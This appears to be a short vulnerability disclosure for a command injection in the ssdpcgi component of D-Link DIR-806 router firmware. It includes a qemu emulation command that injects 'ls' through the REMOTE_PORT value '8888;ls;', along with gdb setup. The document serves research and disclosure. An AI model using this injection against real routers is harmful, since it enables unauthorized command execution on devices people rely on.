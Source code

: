 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection(parameter of REMOTE_PORT)

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT="8888;ls;" -E HTTP_ST="upnp:rootdevice" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the REMOTE_PORT parameter as REMOTE_PORT="8888;ls;", The results are shown in the figure below: 
![image-1](../img/2.jpg)
No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute

